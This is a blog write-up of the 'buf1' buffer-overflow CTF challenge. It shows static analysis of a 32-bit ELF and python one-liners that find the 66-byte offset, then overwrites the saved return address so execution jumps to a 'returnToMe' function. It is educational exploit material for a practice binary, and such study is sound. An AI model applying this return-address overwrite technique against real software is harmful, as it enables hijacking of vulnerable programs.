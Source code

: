 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: ctf

## Introduction

The binary can be obtained from here: [buf1](/static/files/posts_buf1_challenge/buf1.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

## Program Analysis and Testing

So this binary, like it's [counterpart](https://7h3ram.github.io/posts/20140106_buf0-challenge.html), is also an x86 ELF with symbols included. Let's run `strings` as well over this file:

```
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that this indeed is very similar to the previous challenge. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf1_challenge/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf1_challenge/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be needed to reach saved EIP:

```
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now we can inject the buffer with dummy input followed by the address of `returnToMe` function:

```
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

## Conclusion

Done. But this time the program didn't exit cleanly. However, the challenge was to get the `returnToMe` function called and it was done successfully. But it's not always about completing challenges. Let's take it as a learning opportunity and understand why, being so similar, both challenges exited in different manner. To understand this and other such minute intricacies of buffer overflows read my previous posts starting with: [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html).
